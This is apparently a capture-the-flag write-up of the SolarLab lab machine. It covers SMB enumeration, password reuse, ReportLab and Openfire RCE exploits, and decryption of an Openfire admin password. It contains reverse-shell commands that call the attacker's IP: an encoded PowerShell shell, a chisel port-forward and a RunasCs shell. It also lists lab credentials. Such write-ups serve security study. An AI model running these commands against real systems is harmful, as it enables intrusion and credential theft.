# enumeration
**Shell as Blake Byte**

Names found on the webpage



`Alexander Knight`  
`Caudia Springer`  
`Blake Byte`

SMB anonymous login is available and we can access a documents folder with 4 files available.



`Training-Request-Form.docx`  
`Travel-Request-Sample.docx`  
`details-file.xlsx`  
`old_leave_request_form.docx`  
 

Moved the documents to my windows machine to make things easier and we have some interesting info



Passwords found

`al;ksdhfewoiuh`  
`dkjafblkjadsfgl`  
`d398sadsknr390`  
`ThisCanB3typedeasily1@`  
`danenacia9234n`  
`dadsfawe9dafkn`

Users found

`Alexander.knight@gmail.com`  
`KAlexander`  
`Alexander.knight@gmail.com`  
`blake.byte`  
`AlexanderK`  
`ClaudiaS`  
  
 

Couldnt find anything interesting so i looked back at nmap and port 6791 is a web page. I tried accessing it earlier but it didnt load. In nmap it shows the subdomain name. I add it to our /etc/hosts and we have a login page.



We can enumerate users on this page as it discloses if the username is not found.



The correct username is `AlexanderK`, however none of the passwords we found work for this. The file with all the usernames and passwords includes security questions. Currently running gobuster to see if theres a way to reset passwords and possibly supply these security question answers.

I doubled checked the list and I didnt enter one username. `ClaudiaS`, which comes back to a vaild user as well. Passwords found also dont work though.

Got some help from a user on discord and he told me to “Guess” for another username. Looking at the list of users I tried BlakeB and it worked.

We can login with BlakeB:`ThisCanB3typedeasily1@`

`ThisCanB3typedeasily1@`

Each of these options allow us to submit a request with an image file



I created a pdf and grabbed the request in burp and saw its using reportlab pdf to create  the pdfs. Reportlab seems to have some exploits but they are html document exploits.



This seems to be the exploit we want to use

https://github.com/c53elyas/CVE-2023-33733

After a ton of testing I was trying the exploit in the wrong place that had a character limit. Doing this under the “title section” works and I get a curl request. With this I have RCE and should be able to get a shell.



First I run the above command to get nc.exe from our machine, then I run nc.exe to get a shell

`<para>`  
               `exploit`  
`</para>`



`<para>`  
               `exploit`  
`</para>`



**Shell as OpenFire**

We have another user called OpenFire, may need to compromise this account.

OpenFire has some known exploits.

Looking at open ports we have openfire open on 9090

.\\chisel.exe `client 10.10.14.30:8000 R:9090:localhost:9090`

After port forwarding we can now access the openfire portal

Version 4.7.4 has a known RCE exploit



Using this public script released in 2023 we can create an account on the page and sign in

[https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)



We can now login with the username/password above.

I then upload a plugin following the CVE steps.





Once we log into the management portal we can execute commands. I tried using nc.exe but it wouldnt work. Used a powershell rev shell with

`cat shell.ps1 | iconv -t utf-16le | base64 -w 0`

then I copy the output and paste it into the execute command option

`PowerShell.exe -Exec ByPass -Nol -Enc <base64 payload>`





**Shell as Administrator**

Looking at my privileges and the system info of the machine there are not any known exploits so I knew we had to find credentials for Admin.

This was found at C:\\Program Files\\Openfire\\embedded-db containing SQL information.



INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')

Looking at this post [https://hashcat.net/forum/thread-2399.html](https://hashcat.net/forum/thread-2399.html) we can decrypt the password with the key. The key is in the same file.

The link above shows how we can decrypt the string using java, I had chatgpt create a script in python as the java one didnt work. I am sure there are public ones available but this was faster.

`Hash = becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442`

`Key = hGXiFzsKaAeYLjn`

Admin password ThisPasswordShouldDo!@



Confirming the admin password works(note the back slash is just for escaping)



I spent quite a while trying to get a shell on the machine with the login and couldnt get it. Evil-winrm port wasnt open so we didnt have easy access. I forgot about the program RunAsCs, this makes it really easy. Downloaded it and moved it to the machine and ran it and we are Admin.  
https://github.com/antonioCoco/RunasCs

.\\runascs.exe Administrator ThisPasswordShouldDo!@ cmd -r 10.10.14.30:443

